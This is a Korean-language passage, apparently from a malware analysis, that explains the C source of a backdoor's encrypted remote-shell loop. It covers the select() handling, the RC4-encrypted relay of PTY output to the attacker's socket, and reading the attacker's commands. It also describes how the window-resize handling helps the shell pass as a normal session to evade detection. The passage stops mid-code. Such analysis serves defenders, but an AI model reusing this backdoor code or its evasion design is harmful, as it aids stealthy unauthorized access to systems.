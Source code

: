     - select 함수는 다음 상태가 되면 대기를 멈추고 반환한다.
        1. 하나 이상의 FD가 준비 상태가 되었을 때
        2. 오류 발생

    ```c
    if (FD_ISSET(pty, &fds)) {
    	...
    }
    if (FD_ISSET(sock, &fds)) {
    	...
    }
    ```

    - `select` 함수를 통해 `pty`와 `sock` 둘 중 한 FD라도 준비가 되었을 경우에 if 문을 통해 해당 FD에 대한 처리를 진행한다.

    1. **PTY 마스터에서 읽을 데이터(쉘의 출력)가 있는 경우 처리**
        - `pty`에 읽을 데이터가 생겼을 경우를 처리한다. 즉, 자식 쉘 프로세스가 명령을 실행한 결과를 PTY 슬레이브를 통해 PTY 마스터로 보냈다는 의미이고, 이는 `pty`가 처리한 쉘의 결과를 소켓을 통해 공격자에게 전달하기 위한 과정이다.

        ```c
        int count;
        count = read(pty, buf, BUF);
        if (count <= 0) break;
        if (cwrite(sock, buf, count) <= 0) break;
        ```

        - `pty`로부터 데이터를 읽어 `BUF` 크기(=32768=2^15)만큼의 `buf` 공간에 저장한다.
        - 읽을 데이터가 있다면 `cwrite` 함수를 통해 `buf` 공간에 있는 데이터를 `sock` 소켓에 전달한다. 이때 `rc4` 함수를 통해 앞서 저장한 `crypt_ctx` 키 값을 이용하여 데이터를 rc4 암호화하여 `sock`에 전달한다.
        - `pty`에서 전달한 데이터가 없거나, `cwrite` 함수를 통해 정상적으로 데이터를 소켓에 전달했다면 `break`를 통해 while 문을 벗어난다.

    2. **소켓에서 읽을 데이터(공격자의 입력)가 있는 경우 처리**
        - `sock`에 읽을 데이터가 생겼을 때: 공격자가 소켓을 통해 명령이나 터미널 제어 시퀀스를 보냈다는 의미이다.

        ```c
        int count;
        unsigned char *p, *d;
        d = (unsigned char *)buf;
        count = cread(sock, buf, BUF);
        if (count <= 0) break;
        ```

        - 읽을 데이터가 있다면 `cread` 함수를 통해 `sock`으로부터 데이터를 읽어 `buf` 공간에 저장한다. 이때, `rc4` 함수를 통해 `sock`으로 받은 데이터를 앞서 저장한 `decrypt_ctx` 키 값을 이용하여 복호화하여 `buf` 공간에 저장한다.

        ```c
        p = memchr(buf, ECHAR, count);
        ```

        - `buf`에서 `ECHAR`(0x0b) 문자의 첫 번째 등장 위치를 찾아 해당 위치를 반환하고, 못 찾으면 null을 반환한다.
        - `ECHAR`는 윈도우 크기 변경 시에 발생하는 신호로, 공격자의 윈도우 사이즈가 변경했을 경우에 원격 쉘의 크기 또한 자동으로 초기화 한다. 이는 SSH 연결을 사용하는 것처럼 공격자의 사용자 경험을 향상 시키는 것 뿐 아니라, 비정상적인 쉘 동작이 시스템 관리자나 보안 도구에 의해 탐지될 가능성이 있기 때문에 PTY 기반의 완전한 터미널 기능을 제공함으로써, 백도어 쉘이 정상적인 사용자 세션처럼 보이게 하여 탐지를 어렵게 만드는 효과를 가지고 있다.

        ```c
        if (p) {
            unsigned char wb[5];
            int rlen = count - ((long) p - (long) buf);
            struct winsize ws;
